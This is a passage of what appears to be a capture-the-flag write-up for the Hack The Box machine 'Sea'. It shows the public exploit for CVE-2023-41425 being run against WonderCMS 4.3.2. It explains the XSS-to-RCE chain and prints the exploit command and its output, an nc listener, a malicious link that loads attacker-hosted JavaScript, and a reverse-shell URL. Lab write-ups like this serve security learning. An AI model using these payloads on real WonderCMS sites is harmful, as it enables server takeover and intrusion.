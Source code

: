 I googled to find if there's any vulnerability on WonderCMS.
Here's the [repo](https://github.com/duck-sec/CVE-2023-41425) of the exploit.

The attached exploit "exploit.py" performs the following actions:
1. It takes 3 arguments:
    - URL: where WonderCMS is installed (no need to know the password)
    - IP: attacker's Machine IP
    - Port No: attacker's Machine PORT
2. It generates an xss.js file (for reflected XSS) and outputs a malicious link.
3. As soon as the admin (logged user) opens/clicks the malicious link, a few background requests are made without admin acknowledgement to upload a shell via the upload theme/plugin functionality.
4. After uploading the shell, it executes the shell and the attacker gets the reverse connection of the server.

For the admin opening a malicious link part, I think I can utilize `/contact.php` page by inserting link.

```bash
┌──(kali㉿kali)-[~/htb/sea/CVE-2023-41425]
└─$ python exploit.py -u http://sea.htb/loginURL -lh 10.10.14.15 -lp 9000 -sh 10.10.14.15 -sp 8000
##################################
# Wondercms 4.3.2 XSS to RCE     #
# Original POC by prodigiousMind #
# Updated version by Ducksec     #
##################################


Check you got this stuff right!


Parsed arguments:
URL: http://sea.htb/loginURL
LHOST: 10.10.14.15
LPORT: 9000
SRVHOST: 10.10.14.15
SRVPORT: 8000


[+] xss.js is created
[+] Execute the below command in another terminal:

----------------------------
nc -lvp 9000
----------------------------

Send the below link to admin:

----------------------------
http://sea.htb/index.php?page=loginURL?"></form><script+src="http://10.10.14.15:8000/xss.js"></script><form+action="
----------------------------



[+] Ensure that main.zip is still in this directory.
[+] Once the target successfully requests main.zip it's safe to kill this script.


[+] Once complete, you can also re-exploit by requesting: http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.15&lport=9000

Starting HTTP server to allow access to xss.js
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [16/Mar/2025 20:27:58] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [16/Mar/2025 20:28:05] "GET /main.zip HTTP/1.1" 200 -
```